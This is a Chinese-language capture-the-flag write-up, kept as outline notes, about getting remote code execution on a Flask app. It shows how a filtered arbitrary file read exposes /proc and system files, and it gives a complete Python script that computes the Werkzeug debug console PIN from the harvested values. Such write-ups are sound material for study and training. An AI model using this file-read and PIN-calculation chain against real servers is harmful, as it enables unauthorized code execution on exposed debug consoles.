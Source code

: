 - # 思路
	- 利用文件读取漏洞，计算flask debug pin实现RCE
	- 参考[[CTF/Flask/Debug模式RCE]]
- # WAF下的任意文件读取
  id:: 63e792d2-442c-473d-ada6-0a35a1cb5b57
	- `/view?filename=xxx`可以读取任意文件，但是waf禁止`flag`,`self`和`cgroup`这三个关键字
- # 数据收集
	- 不带参数访问`/view`，进入错误界面，看到模块地址为`/usr/local/lib/python3.8/site-packages/flask/app.py`
	- 利用 ((63e792d2-442c-473d-ada6-0a35a1cb5b57))
		- 爆破`/proc/{i}/environ`可知可以读取pid为14,17,19的环境
		- 读取`/proc/14/environ`可知用户名为`app`
		- 读取`/proc/14/cpuset`可知某个控制组为`/docker/dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3`
		- 读取`/sys/class/net/eth0/address`可知mac地址为`02:42:ac:02:05:32`
	- 最终收集到的数据如下，满足计算pin的条件
		- ```python
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  ```
- # 生成PIN
	- 脚本如下
		- ```python
		  import hashlib
		  from itertools import chain
		  
		  rv, num = None, None
		  
		  probably_public_bits = [
		      'app',
		      'flask.app',
		      'Flask',
		      '/usr/local/lib/python3.8/site-packages/flask/app.py'
		  ]
		  
		  private_bits = [
		      '2485376910642',# str(uuid.getnode()),  /sys/class/net/ens33/address
		      '7265fe765262551a676151a24c02b7b6dcddc01b2cc5deb5f183ef8a3af12770f1191c04ea53542256866fa5c5569ec3'# /etc/machine-id的内容+/proc/self/cgroup的结尾
		  ]
		  
		  h = hashlib.sha1()
		  for bit in chain(probably_public_bits, private_bits):
		      if not bit:
		          continue
		      if isinstance(bit, str):
		          bit = bit.encode("utf-8")
		      h.update(bit)
		  h.update(b"cookiesalt")
		  
		  cookie_name = f"__wzd{h.hexdigest()[:20]}"
		  
		  # If we need to generate a pin we salt it a bit more so that we don't
		  # end up with the same value and generate out 9 digits
		  if num is None:
		      h.update(b"pinsalt")
		      num = f"{int(h.hexdigest(), 16):09d}"[:9]
		  
		  # Format the pincode in groups of digits for easier remembering if
		  # we don't have a result yet.
		  if rv is None:
		      for group_size in 5, 4, 3:
		          if len(num) % group_size == 0:
		              rv = "-".join(
		                  num[x : x + group_size].rjust(group_size, "0")
		                  for x in range(0, len(num), group_size)
		              )
		              break
		      else:
		          rv = num
		  
		  print(rv)
		  ```
	- 使用生成的PIN控制flask后台即可
-